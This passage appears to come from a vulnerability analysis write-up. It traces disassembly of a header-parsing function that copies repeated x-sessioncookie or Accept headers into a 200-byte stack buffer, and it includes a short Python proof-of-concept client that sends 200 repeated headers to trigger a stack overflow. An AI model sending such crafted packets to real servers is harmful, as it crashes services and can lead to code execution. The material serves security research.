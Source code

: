 1. *0x40659a*
2. *0x4066b7*

**Address 0x40659a**

```asm
0x0040659a      c60100         mov byte [rcx], 0
0x0040659d      48890c24       mov qword [rsp], rcx
```

it means:

```c
resultStr[0] = '\0'; // by default, return an empty string
```

**Address 0x4066b7**

```assembly
0x004066a8      4883c201       add rdx, 1
0x004066ac      0fb64aff       movzx ecx, byte [rdx - 1]
0x004066b0      4883c601       add rsi, 1
0x004066b4      4839c2         cmp rdx, rax
0x004066b7      884eff         mov byte [rsi - 1], cl
0x004066ba      75ec           jne 0x4066a8
```

The *lookForHeader* function is called 2 times

```c
lookForHeader("x-sessioncookie", &reqStr[i], reqStrSize-i, sessionCookie, sessionCookieMaxSize);
lookForHeader("Accept", &reqStr[i], reqStrSize-i, acceptStr, acceptStrMaxSize);
```

If we send a proper packet with this header:

```html
...
x-sessioncookie: BBBB
...
```

At line *0x004066ac* the value of the fist byte is put inside *ecx*.

At line *0x004066b7* the byte read, is put into *[rsi - 1]*.

The contents of the *rsi* register is an address, and it is the *resultStr* variable (local variable array with a fix size of *200*, it is allocated in the stack).

If there are many *x-sessioncookie* (or *Accept*), the *resultStr* address continues to increment (line *0x4066cb*) until a stack overflow is triggered.

This is the code that send the crafted packet ([client3.py](https://github.com/invictus1306/invictus1306.github.io/blob/master/res/functrace/client3.py))

```python
from socket import *

host = "127.0.0.1"
port = 80

def run():
     s = socket(AF_INET, SOCK_STREAM)
     s.connect((host, port))
     payload = "x-sessioncookie: BBBB\r\n"*200
     header = " HTTP/\r\n" + payload + "Accept: AAAA\r\n\r\n"
     s.send(header)

if __name__ == '__main__':
     run()
```

